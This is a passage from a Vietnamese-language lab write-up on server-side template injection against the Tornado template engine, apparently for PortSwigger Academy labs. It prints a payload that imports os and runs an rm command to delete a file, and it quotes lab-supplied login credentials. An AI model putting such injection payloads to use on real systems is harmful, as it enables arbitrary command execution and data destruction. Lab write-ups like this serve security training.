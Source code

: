 ![](./img_ssti/6.png)

- Sau khi đọc về [tài liệu Tornado](https://www.tornadoweb.org/en/stable/template.html) tôi đã thử tấn công template injection.

```
{% import os %}
{{os.system('rm /home/carlos/morale.txt')
```

> **Lab: Server-side template injection using documentation**

- Để giải quyết vấn đề trong phòng thí nghiệm, hãy xác định công cụ mẫu và sử dụng tài liệu để tìm ra cách thực thi mã tùy ý, sau đó xóa tệp Morale.txt khỏi thư mục chính của Carlos.

- Bạn có thể đăng nhập vào tài khoản của riêng mình bằng thông tin đăng nhập sau:

```
content-manager:C0nt3ntM4n4g3r
```

- Sau khi chúng ta đăng nhập vào tài khoản trên chúng ta thấy có chức năng edit templates như sau:

![](./img_ssti/7.png)
